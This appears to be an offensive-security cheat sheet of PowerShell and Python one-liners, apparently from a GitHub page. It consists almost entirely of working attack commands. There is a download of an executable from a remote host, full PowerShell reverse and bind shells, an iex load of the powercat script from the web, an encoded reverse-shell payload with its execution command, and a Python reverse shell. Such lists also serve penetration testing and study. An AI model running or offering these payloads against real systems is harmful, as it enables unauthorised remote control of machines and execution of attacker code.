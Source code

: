 ## *Powershell*

### Download file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.22.33.44/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

### Reverse shell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('11.22.33.44',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

### Bind shell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"

### Load a remote powercat script
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Generate encoded payload (here a reverse shell)
powercat -c 11.22.33.44 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
### Execute it
powershell -E <encoded payload>

## *python*

### Reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


